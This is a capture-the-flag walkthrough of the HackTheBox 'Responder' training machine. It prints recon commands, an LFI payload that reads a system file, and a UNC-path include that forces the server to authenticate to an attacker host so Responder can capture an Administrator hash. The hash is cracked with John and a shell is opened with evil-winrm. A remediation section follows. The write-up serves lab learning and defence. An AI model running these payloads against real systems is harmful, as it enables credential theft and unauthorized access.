

# Responder (Starting Point)

| | |
|---|---|
| **Platform** | HTB — Starting Point (Tier 1) |
| **OS** | Windows |
| **Difficulty** | Very Easy |
| **Status** | Starting Point (free, public guidance) ✅ |
| **Tags** | `web` `lfi` `rfi` `ntlm` `responder` `hash-cracking` `winrm` |

> A PHP `page` parameter includes whatever path you give it. Point it at a UNC path on your own machine, the Windows server authenticates to you over SMB, Responder captures the NetNTLMv2 hash, John cracks it, and WinRM gives a shell.

---

## Attack chain



---

## Recon

```bash
nmap -sCV -p- --min-rate 5000 $RHOST
echo "$RHOST unika.htb" | sudo tee -a /etc/hosts
```

- `80/tcp` — Apache/PHP site on `unika.htb` with a language switcher: `index.php?page=french.html`.
- `5985/tcp` — **WinRM** ("удалённое управление Windows") — the way in once we have credentials.

## Foothold — LFI → RFI → NTLM capture

`page` is passed straight to `include()`. That is **LFI** ("локальное включение файла"):

```bash
curl 'http://unika.htb/index.php?page=../../../../../../windows/system32/drivers/etc/hosts'
```

On Windows, PHP will also accept a **UNC path** (`//host/share/file`). Opening it makes the server try to authenticate to that host over SMB using **NTLM** — and it sends a challenge-response we can capture.

```bash
sudo responder -I tun0
curl 'http://unika.htb/index.php?page=//10.10.14.X/somefile'
```

Responder prints a **NetNTLMv2** hash for `Administrator`. It is not a reusable hash (no pass-the-hash), but it can be cracked offline:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# -> badminton
```

## Shell

```bash
evil-winrm -i $RHOST -u Administrator -p badminton
```

---

## Lessons / notes

- **WSL2 gotcha:** with OpenVPN running in the Windows GUI, `tun0` does not exist inside WSL2, so the target can't reach Responder. Run `openvpn` *inside* WSL so the callback lands on the right interface.
- Any file-include on Windows that accepts UNC paths is effectively a **forced-authentication** primitive.

## Remediation

- Allow-list `page` values; never pass user input to `include()`. Set `allow_url_include=Off`.
- Block outbound SMB (445) from servers; enforce strong passwords so captured NetNTLMv2 is not crackable.
- Restrict WinRM to management networks.

## References

- Responder — https://github.com/lgandx/Responder
- HTB Starting Point — Responder
